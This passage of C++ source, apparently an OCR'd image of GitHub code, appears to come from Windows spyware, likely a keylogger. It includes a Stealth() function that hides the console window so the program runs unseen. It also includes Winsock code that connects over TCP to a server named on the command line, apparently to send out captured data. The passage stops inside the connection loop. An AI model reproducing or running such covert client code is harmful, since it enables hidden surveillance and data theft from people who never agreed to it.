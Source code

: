 ```cpp
	// printf("\tBytes Sent: %ld\n", iResult);
	return 0;
}
void Stealth()
{
#ifdef visible
	ShowWindow(FindWindowA("ConsoleWindowClass", NULL), 1); // visible window
#endif

#ifdef invisible
	ShowWindow(FindWindowA("ConsoleWindowClass", NULL), 0); // invisible window
#endif
}


int __cdecl main(int argc, char** argv)
{
	// Validate the parameters
	if (argc != 2) {
		printf("usage: %s server-name\n", argv[0]);
		return 1;
	}

	// Initialize Winsock
	iResult = WSAStartup(MAKEWORD(2, 2), &wsaData);
	if (iResult != 0) {
		printf("WSAStartup failed with error: %d\n", iResult);
		return 1;
	}

	ZeroMemory(&hints, sizeof(hints));
	hints.ai_family = AF_UNSPEC;
	hints.ai_socktype = SOCK_STREAM;
	hints.ai_protocol = IPPROTO_TCP;

	// Resolve the server address and port
	iResult = getaddrinfo(argv[1], DEFAULT_PORT, &hints, &result);
	if (iResult != 0) {
		printf("getaddrinfo failed with error: %d\n", iResult);
		WSACleanup();
		return 1;
	}

	// Attempt to connect to an address until one succeeds
	for (ptr = result; ptr != NULL; ptr = ptr->ai_next) {

		// Create a SOCKET for connecting to server
		ConnectSocket = socket(ptr->ai_family, ptr->ai_socktype,
			ptr->ai_protocol);
		if (ConnectSocket == INVALID_SOCKET) {
			printf("socket failed with error: %ld\n", WSAGetLastError());
			WSACleanup();
			return 1;
		}

		// Connect to server.
		iResult = connect(ConnectSocket, ptr->ai_addr, (int)ptr->ai_addrlen);
		if (iResult == SOCKET_ERROR) {
			closesocket(ConnectSocket);
			ConnectSocket = INVALID_SOCKET;
			continue;
		}
		break;
```